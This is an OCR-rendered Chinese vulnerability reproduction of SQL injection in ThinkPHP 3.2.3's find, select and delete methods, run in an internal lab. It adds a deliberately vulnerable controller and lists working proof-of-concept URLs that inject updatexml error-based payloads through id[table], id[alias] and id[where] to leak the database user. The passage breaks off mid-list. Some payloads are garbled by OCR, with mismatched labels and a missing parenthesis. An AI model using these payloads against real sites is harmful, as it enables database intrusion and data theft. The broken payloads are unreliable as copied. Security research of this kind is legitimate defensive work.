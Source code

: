   **漏洞复现（内网环境）**  
**在 Application\Home\Controller\IndexController.class.php 添加以下代码:**

```
<?php 

public function test()  

{  

    $id = i('id');  

    $res = M('user')‐>find($id);

    //find()  //$res = M('user')‐>delete($id); //delete() 

    //$res = M('user')‐>select($id); //select()  

}
```

**Poc/exp:**  
针对 **select()** 和 **find()** 方法 , 有很多地方可注，这里主要列举三个 table，alias， where，更多还请自行跟踪一下 parseSql 的各个 parseXXX 方法，目测都是可行 的，比如 having,group 等。  
**where:** 

```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat x7e,user(),0x7e),1)‐‐
```

**alias:** 

```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,u ser(),0x7e),1)‐‐
```

**table:**

```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x 7e),1)‐‐
```

[![](http://zone.secevery.com/uploads/article/20191220/47e943cd1acba4c95e82471c038eea80.png)](http://zone.secevery.com/uploads/article/20191220/47e943cd1acba4c95e82471c038eea80.png)

而 **delete()** 方法的话同样，这里粗略举三个例子，table,alias,where，但使用 table 和 alias 的时候，同时还必须保证 where 不为空

**where:** 

```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x 7e),1)‐‐
```

**alias:** 
